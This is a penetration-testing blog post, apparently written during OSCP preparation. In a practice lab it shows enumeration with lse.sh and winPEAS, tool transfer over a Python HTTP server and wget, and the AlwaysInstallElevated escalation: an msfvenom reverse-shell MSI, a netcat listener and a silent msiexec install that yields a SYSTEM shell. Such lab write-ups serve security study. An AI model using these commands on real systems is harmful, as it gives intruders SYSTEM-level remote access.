 ```yaml
---
layout: post
title: Windows and Linux Privilege Escalation Tools
subtitle: Abusing the AlwaysInstallElevated option for privilege escalation
tags: [Security, OSCP, Privilege escalation, Pentest, Red-teaming]
comments: true
---
```


In my preperation for the OSCP course i am learning about both linux and windows privilege escalations techniques.
There are differten escaltion techniques like escalation via kernel exploits, unqoted services, misconfigruations and stuff like that.
I built myself a lab to practice on. 
I have used <https://github.com/sagishahar/lpeworkshop> for the lab. Everything you need to know is in there. I did use a Win 10 machine so i had to remove the space between the md5 hashes to make the script work. Also i did create an admin account and disabled the realtime protection.

You can find the different privilege escalation manually or via automated scripts.
The two tools i use for automation are linux-smart-enumeration for Linux <https://github.com/diego-treitos/linux-smart-enumeration>
winPEAS for Windows <https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite>

To use lse (Linux-smart-enumeration), first we download the script. 
<div class="alert-info">git clone git clone https://github.com/diego-treitos/linux-smart-enumeration.git
</div>

Next we can use lse. you can use the -h parameter to show the options. I am not going to get in details about this.
<div class="alert-info">./lse.sh -h
</div>
Of course you have to run this on the victim-pc or victim-server.

To use winPEAS ,first we download the scripts.
<div class="alert-info">git clone git clone https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git
</div>
As with the lse.sh script, you have to run this on the victim-pc or victim-server.

To transfer one of these files you have a few options you can use.
On linux you can start a http server to download the files via the shell on the victim.
Other options are to transfer these files via SMB or NetCat if it is available on the victim.
When transfering via SMB you have to setup SMB on kali.

To start a http server run the following command.
<div class="alert-info">sudo python3 -m http.server 80</div>
This will start a http on port 80 in the directory you currently are.

You can now download the lse.sh if you are on Linux or winPEAS.exe if you are on Windows.
Once you have transferd one of the files you can run it and read the output carefully for anything interesting that could lead to a privilege escalation.

Let's say we already have shell on a Windows victim we could start from there to download the winPEAS.exe file.
<div class="alert-info">wget http://ip/winPEAS.exe -O winPEAS.exe</div>
![image](/assets/img/transfer-winpeas.png)
As you can see the shell we had does not understand weget. So we just type in powershell to get a powershell shell were we can run the wget comman.

Next run the winPEAS.exe and check for anything interesting that could lead to a privilege escalation.

We use the command .\winPEAS.exe -h to see what options we have.
![image](/assets/img/winpeas-h.png)
Let's run the following command
<div class="alert-info">.\winPEAS.exe windowscreds</div>
![image](/assets/img/winpeas-windowscreds.png)
The results shows us that AlwaysInstallElevated is set to 1 in both HKLM and HKCU!
This means that .MSI packages are installed with eleveated system privileges.

We now can run the following msfvenom commannd to create a payload with a reverse shell in it.
<div class="alert-info">msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f msi -o reverse.msi</div>
![image](/assets/img/msfvenom-msi.png)
Next we set up a http server to download the file from the victim
<div class="alert-info">sudo python3 -m http.server 80</div>
![image](/assets/img/http-server.png)

Next we download the reverse.msi to the victim
<div class="alert-info">wget http://ip/reverse.msi -O reverse.msi</div>
![image](/assets/img/wget-msi.png)

We now setup a new NetCat listener on Kali 
<div class="alert-info">sudo nc -nlvp 55</div>
![image](/assets/img/nc-listener-55.png)

Finally we run the following command in the victim shell
<div class="alert-info">msiexec /quiet /qn /i reverse.msi</div>
![image](/assets/img/msiexec.png)

Lets go back to the new nc listener and checkout if we did catch the reverse shell with system privileges.

![image](/assets/img/system-msiexec.png)

Yes, we have shell and running it as system!
